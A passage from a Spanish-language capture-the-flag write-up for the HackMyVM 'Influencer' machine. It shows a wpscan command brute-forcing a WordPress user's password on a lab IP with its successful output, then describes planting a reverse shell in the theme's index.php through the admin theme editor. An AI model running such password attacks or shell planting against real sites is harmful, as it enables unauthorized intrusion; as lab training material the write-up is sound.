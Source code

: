 Y usando **wpscan** puedo obtener la contraseña correcta haciendo un ataque de fuerza bruta con la lista anteriormente generada.

```
$ wpscan --url "http://192.168.1.112/wordpress/" --detection-mode aggressive --api-token j******************************************* -e --plugins-detection aggressive -P luna.txt
[...]
[+] luna
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://192.168.1.112/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - luna / l********                                                                                        
Trying luna / luna_199706 Time: 00:00:49 <================                     > (2120 / 4694) 45.16%
```

## Explotación

Una vez dentro del panel de administración > Theme editor. Modifico el archivo index.php del tema que se está usando y añado una "reverse shell".

![img](/imgs/write-ups/hackmyvm/influencer/influencer_2.png#center)
